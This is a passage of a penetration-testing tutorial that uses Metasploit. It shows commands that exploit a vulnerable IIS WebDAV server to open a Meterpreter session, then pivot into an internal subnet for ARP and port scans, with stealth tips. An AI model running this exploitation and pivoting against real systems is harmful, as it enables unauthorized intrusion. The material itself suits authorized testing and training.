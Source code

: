 ```bash
# Initial external scan reveals web server
./tcp_scan.sh 203.0.113.10

# Discover and exploit vulnerable web application
msf6 > use exploit/windows/iis/iis_webdav_upload_asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 203.0.113.10
msf6 exploit(windows/iis/iis_webdav_upload_asp) > exploit

[*] Meterpreter session 1 opened
```

### Internal Network Enumeration Through Pivot

```bash
# Discover internal network configuration
meterpreter > run post/windows/gather/arp_scanner RHOSTS 192.168.2.0/24

# Add route for internal network
meterpreter > background
msf6 > route add 192.168.2.0/24 1

# Scan internal hosts through pivot
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.2.20-192.168.2.50
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 22,80,443,21,25,53,110,143,993,995,3389
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 10
msf6 auxiliary(scanner/portscan/tcp) > run
```

## Best Practices

1. **Thread Management**: Adjust threads based on network conditions and stealth requirements
2. **Port Selection**: Use common port ranges initially, expand based on findings
3. **Database Integration**: Always use workspaces to organize results
4. **Route Verification**: Confirm pivot routes before internal scanning
5. **Stealth Considerations**: Use SYN scans and adjust timing for sensitive environments
6. **Result Documentation**: Use Metasploit's built-in reporting features

## Next Steps

After port scanning:

1. Use service-specific auxiliary modules for deeper enumeration
2. Import results into vulnerability assessment workflows
3. Chain discoveries for comprehensive network mapping
4. Generate professional reports from collected data

This approach enables seamless transition from external reconnaissance to internal network mapping while maintaining operational security and comprehensive result tracking.
